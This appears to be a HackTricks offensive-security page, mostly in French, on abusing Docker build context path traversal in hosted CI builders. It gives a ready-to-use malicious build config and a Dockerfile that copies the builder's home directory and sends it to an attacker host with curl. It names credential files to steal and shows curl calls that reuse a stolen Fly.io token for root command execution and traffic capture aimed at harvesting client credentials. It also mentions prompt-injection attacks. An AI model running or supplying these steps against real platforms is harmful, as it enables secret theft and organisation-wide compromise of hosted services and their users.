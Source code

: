 # Abuser le Docker Build Context dans des hosted builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## TL;DR

Si une plateforme CI/CD ou un hosted builder permet aux contributeurs de spécifier le chemin du Docker build context et le chemin du Dockerfile, vous pouvez souvent définir le contexte sur un répertoire parent (par ex., "..") et inclure des fichiers de l'hôte dans le build context. Ensuite, un Dockerfile contrôlé par l'attaquant peut COPY et exfiltrate des secrets trouvés dans le répertoire home de l'utilisateur du builder (par exemple, ~/.docker/config.json). Des registry tokens volés peuvent aussi fonctionner contre les control-plane APIs du provider, permettant un RCE à l'échelle de l'organisation.

## Surface d'attaque

Beaucoup de services hosted builder/registry font à peu près ceci lors de la construction d'images soumises par des utilisateurs :
- Lire une config au niveau du repo qui inclut :
- build context path (envoyé au Docker daemon)
- Dockerfile path relative à ce contexte
- Copier le répertoire du build context indiqué et le Dockerfile vers le Docker daemon
- Builder l'image et l'exécuter comme service hébergé

Si la plateforme ne canonicalise pas et ne restreint pas le build context, un utilisateur peut le définir vers un emplacement en dehors du repository (path traversal), ce qui fait que des fichiers arbitraires de l'hôte lisibles par l'utilisateur de build deviennent partie du build context et sont disponibles pour COPY dans le Dockerfile.

Contraintes pratiques couramment observées :
- Le Dockerfile doit se trouver à l'intérieur du chemin de contexte choisi et son chemin doit être connu à l'avance.
- L'utilisateur de build doit avoir un accès en lecture aux fichiers inclus dans le contexte ; des fichiers de périphérique spéciaux peuvent casser la copie.

## PoC: Path traversal via Docker build context

Exemple de config serveur malveillante déclarant un Dockerfile à l'intérieur du contexte du répertoire parent :
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Remarques :
- L'utilisation de ".." résout souvent vers le répertoire home de l'utilisateur builder (e.g., /home/builder), qui contient typiquement des fichiers sensibles.
- Placez votre Dockerfile sous le nom du répertoire du repo (e.g., repo "test" → test/Dockerfile) afin qu'il reste dans le contexte parent étendu.

## PoC : Dockerfile pour ingérer et exfiltrer le contexte de l'hôte
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Cibles couramment récupérées depuis $HOME :
- ~/.docker/config.json (registry auths/tokens)
- Autres caches et configs cloud/CLI (par ex., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Astuce : Même avec un .dockerignore dans le dépôt, la sélection du contexte côté plateforme vulnérable détermine toujours ce qui est envoyé au daemon. Si la plateforme copie le chemin choisi vers le daemon avant d'évaluer le .dockerignore de votre repo, des fichiers hôtes peuvent quand même être exposés.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Certaines plateformes émettent un seul bearer token utilisable à la fois pour le container registry et l'control-plane API. Si vous exfiltrez un registry token, essayez-le contre l'API du provider.

Exemples d'appels API contre Fly.io Machines API en utilisant le token volé depuis ~/.docker/config.json :

Énumérer les apps dans une org :
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Exécuter une commande en tant que root à l'intérieur de n'importe quelle machine d'une application :
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Résultat : remote code execution à l'échelle de l'organisation sur toutes les apps hébergées lorsque le token dispose de privilèges suffisants.

## Vol de secrets depuis des services hébergés compromis

Avec exec/RCE sur les serveurs hébergés, vous pouvez harvest client-supplied secrets (API keys, tokens) ou lancer des prompt-injection attacks. Exemple : installez tcpdump et capturez le trafic HTTP sur le port 8080 pour extraire les inbound credentials.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Les requêtes capturées contiennent souvent des client credentials dans les headers, bodies, ou query params.

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
